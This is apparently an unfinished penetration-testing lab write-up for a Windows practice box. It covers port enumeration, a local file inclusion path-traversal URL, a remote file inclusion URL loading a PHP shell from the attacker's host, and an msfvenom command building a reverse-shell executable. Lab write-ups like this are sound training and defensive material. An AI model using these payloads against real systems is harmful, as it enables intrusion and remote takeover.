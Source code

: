 #InProgress 
```IP

```
# Enumeration
## FTP 21
FileZilla ftpd 0.9.41 beta
https://github.com/NeoTheCapt/FilezillaExploit/tree/master
## SMB
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210105939.png?raw=true)

## HTTP 8080
XAMPP
phpmyadmin Access to the requested directory is only available from the local network.
phpinfo.php
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210105723.png?raw=true)
user rupert
big.txt
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210110447.png?raw=true)
/site
LFI in page parameter
```
http://192.168.164.53:4443/site/index.php?page=..\..\..\..\Windows\System32\drivers\etc\hosts
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210110647.png?raw=true)


## MYSQL 3306
Host '192.168.45.189' is not allowed to connect to this MariaDB server
## HTTP 4443
Apache httpd 2.4.43

# Exploitation
I tried RFI
```
http://192.168.164.53:4443/site/index.php?page=http://192.168.45.189/shell-ivan.php
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210184137.png?raw=true)
# PrivEsc

## Manual

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.189 LPORT=4444 -f exe > reverse.exe
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210191250.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210191226.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210191359.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement
